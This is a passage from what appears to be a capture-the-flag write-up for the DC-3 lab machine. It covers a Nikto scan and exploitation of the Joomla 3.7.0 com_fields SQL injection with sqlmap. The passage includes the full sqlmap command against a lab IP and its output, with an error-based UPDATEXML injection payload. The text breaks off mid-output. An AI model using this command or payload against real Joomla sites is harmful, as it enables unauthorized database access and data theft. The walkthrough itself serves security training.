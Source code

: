 ```jsx
+ 1 host(s) tested

      *********************************************************************
      Portions of the server's headers (Apache/2.4.18) are not in
      the Nikto database or are newe
```

## Enumeration

***Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability***

![DC-3%2014b1155f74fb46a08121a9a9500e8df1/Untitled%201.png](DC-3%2014b1155f74fb46a08121a9a9500e8df1/Untitled%201.png)

*Using sqlmap to exploit above joomle sql injection vulnerability*

```jsx
root@kali:~# **sqlmap -u "http://192.168.122.186/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=update.xml"-p list[fullordering] --dbs --batch**
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.6#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:04:26 /2021-05-29/

[02:04:26] [INFO] resuming back-end DBMS 'mysql' 
[02:04:26] [INFO] testing connection to the target URL
[02:04:26] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('460ada11b31d3c5e5ca6e58fd5d3de27=dc1set4n2o0...m2ii7h32k0'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(5655,CONCAT(0x2e,0x7171716a71,(SELECT (ELT(5655=5655,1))),0x71627a7a71),1990))

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
```
